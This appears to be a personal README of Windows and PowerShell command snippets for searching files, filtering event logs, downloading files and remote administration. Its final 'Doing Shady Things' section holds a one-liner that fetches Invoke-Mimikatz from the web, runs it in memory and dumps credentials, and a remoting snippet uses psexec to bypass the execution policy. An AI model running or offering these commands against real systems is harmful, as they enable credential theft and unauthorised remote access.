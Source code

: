 # Command Line Kung-Fu
Some things I've picked up over the years.
## Parsing Stuff
Literal string match recursively from the root of the C: drive:
```
findstr /pinsc:"somestring" C:\*.txt
```
RegEx string match recursively in all text and xml files:
```
findstr /pinsr ^some.tring *.txt *.xml
```
Filtering Saved Windows Event Log Files With PowerShell
```
Get-WinEvent -Path "\\server\share\name-of-log.evt" -Oldest -FilterXPath "*[EventData[Data[@Name='TargetUserName'] = 'user.name']] or *[EventData[Data[@Name='Workstation'] = 'host-name']]"
```
## Downloading Stuff
Like wget for older versions of PowerShell
```
(New-Object System.Net.WebClient).DownloadFile("https://www.contoso.com/file","C:\path\file")
```
Or wget for newer PowerShell
```
Invoke-WebRequest -Uri "http://www.contoso.com" -OutFile "C:\path\file"
```
## Doing Stuff Remotely
Enabling PsRemoting Remotely :-)
```
$NaughtyComputer = Read-Host "Please Enter The ComputerName:"
psexec.exe -accepteula -s -h -e -d \\some-hostname powershell.exe "Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine -Force"
psexec.exe -accepteula -s -h -e -d \\some-hostname powershell.exe "Enable-PSRemoting -Force"
Enter-PSSession -ComputerName $NaughtyComputer
```
## Doing Things Iteratively
Getting  all the .msp files out of your windows Update .cab archives
```
Get-ChildItem -Path C:\Windows\SoftwareDistribution\Download\*.cab -Recurse | Select-Object -ExpandProperty FullName | ForEach-Object {expand.exe $_ -F:* C:\Updates\}
```
## Doing Shady Things
Dumping Some Creds
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds | Out-File "$($Env:TEMP)\output.txt"
```